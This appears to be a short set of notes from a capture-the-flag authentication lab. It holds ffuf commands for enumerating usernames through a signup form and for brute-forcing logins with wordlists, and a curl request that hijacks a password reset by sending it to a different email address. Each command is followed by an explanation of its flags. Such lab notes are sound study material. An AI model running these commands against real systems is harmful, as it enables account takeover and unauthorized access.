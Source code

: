 # Commands

```powershell

ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.215.241/customers/signup -mr "username already exists"

```

In the above example, the -w argument selects the file's location on the computer that contains the list of usernames that we're going to check exists. The -X argument specifies the request method, this will be a GET request by default, but it is a POST request in our example. The -d argument specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword. We've set the value of the username to FUZZ. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request. The -H argument is used for adding additional headers to the request. In this instance, we're setting the Content-Type to the webserver knows we are sending form data. The -u argument specifies the URL we are making the request to, and finally, the -mr argument is the text on the page we are looking for to validate we've found a valid username.

```powershell
# brute force attack
ffuf -w ./HackingPython/THM-WordsList/valid-usernames.txt:W1,./SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d  "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.215.241/customers/login -fc 200
```

This ffuf command is a little different to the previous one in Task 2. Previously we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword. In this instance, we've chosen W1 for our list of valid usernames and W2 for the list of passwords we will try. The multiple wordlists are again specified with the -w argument but separated with a comma.  For a positive match, we're using the -fc argument to check for an HTTP status code other than 200.

curl 'http://10.10.215.241/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=paolo@customer.acmeitsupport.thm'

## Reference

[](https://crackstation.net/)
